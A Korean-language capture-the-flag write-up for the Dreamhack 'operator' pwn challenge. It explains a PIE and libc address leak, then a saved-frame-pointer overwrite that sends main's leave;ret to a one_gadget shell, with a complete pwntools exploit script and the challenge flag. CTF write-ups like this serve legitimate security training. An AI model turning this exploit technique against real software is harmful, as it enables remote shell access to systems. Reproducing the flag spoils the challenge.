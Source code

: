 보호기법은 풀이다.
bss를 다 채워서 pie leak,
printf 직전으로 돌아가서 rdi에 libc 관련 주소가 들어있어서 libc_base 릭.

그 다음 쉘 따는 거.
filp sfp, filp ret, main ret 변조 다 고려해본 결과 filp sfp를 변조하고 main의 leave ret을 통해 one_gadget 혹은 ROP
filp에서 숫자를 입력받을 때 다른 함수를 써서 0xe 만큼 입력받고 atoll 취한다. 이 때 입력받은 게 stack에 그대로 남아있고, `filp의 sfp` - 0x80에 그 값이 그대로 남아있다. 그래서 sfp를 저기로 옮기고 main의 leave_ret으로 원가젯을 실행시킬 수 있었다.

```bash
0xebd43 execve("/bin/sh", rbp-0x50, [rbp-0x70])
constraints:
  address rbp-0x50 is writable
  rax == NULL || {rax, [rbp-0x48], NULL} is a valid argv
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL || [rbp-0x70] is a valid envp
```
위와 같은 원가젯을 썼고, sfp의 첫 바이트가 0x80 이상이어야 해서 1/2, sfp를 bss의 어느 구역으로 옮겨 \[rbp-0x70\]을 NULL로 만들었는데 이 때 주소를 잘 조작하면 성립하는 pie_base가 하나 존재하고, 이가 1/16 -> 총 1/32 확률로 익스에 성공한다.

# Exploit code

```python
from pwn import *
from time import *

context.terminal = ['tmux', 'splitw', '-h']

p = remote('host3.dreamhack.games', 18616)
#p = process('./operator')
l = ELF('./libc.so.6')
e = ELF('./operator')

p.sendlineafter(b'>> ', b'1')
p.sendafter(b'>> ', b'a' * 0x1000)
p.sendlineafter(b'>> ', b'1')
p.recvuntil(b'a' * 0x1000)
pie_base = u64(p.recvn(6).ljust(8, b'\x00')) - 0x2008
print(hex(pie_base))
p.sendafter(b'>> ', b'\x00' * 0x1000)

p.sendlineafter(b'>> ', b'2')
p.sendlineafter(b'offset: ', str(0x30).encode())
p.sendlineafter(b'(7 ~ 0): ', b'6')
p.recvline()
p.recvline()
l.address = u64(p.recvn(6).ljust(8, b'\x00')) - (0x7ffff7df50d0 - 0x7ffff7d93000)
print(hex(l.address))

print(hex(pie_base + e.bss()))

sleep(1)
p.send(b'2')
p.sendlineafter(b'offset: ', str(0x28).encode())
p.sendlineafter(b'(7 ~ 0): ', b'7\x00' + p64(pie_base + e.bss() + 0x10000)[2:] + p64(l.address + 0xebdb3)[:6])
p.interactive()
```
`DH{1cd38fae64d2dc5e32aed45b150275b9a39b37d28265114ee0e7bd0e024ffdb7}`